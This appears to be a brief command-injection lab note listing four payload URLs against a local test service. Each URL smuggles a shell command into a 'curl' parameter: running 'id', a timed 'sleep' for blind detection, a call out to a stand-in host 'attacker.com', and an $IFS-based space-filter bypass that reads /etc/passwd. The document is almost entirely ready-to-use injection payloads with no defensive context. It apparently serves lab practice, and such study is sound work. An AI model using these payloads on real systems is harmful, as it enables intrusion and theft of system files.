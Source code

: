
http://127.0.0.1:1337/?curl=https://google.com/;id


Blind
http://127.0.0.1:1337/blind.php?curl=127.0.0.1;%20sleep%202


Semi-blind
http://127.0.0.1:1337/semi_blind.php?curl=127.0.0.1%3B+curl+https://attacker.com/


Space Bypass
http://127.0.0.1:1337/filter.php?curl=127.0.0.1%3Bcat%24IFS%249%2Fetc%2Fpasswd
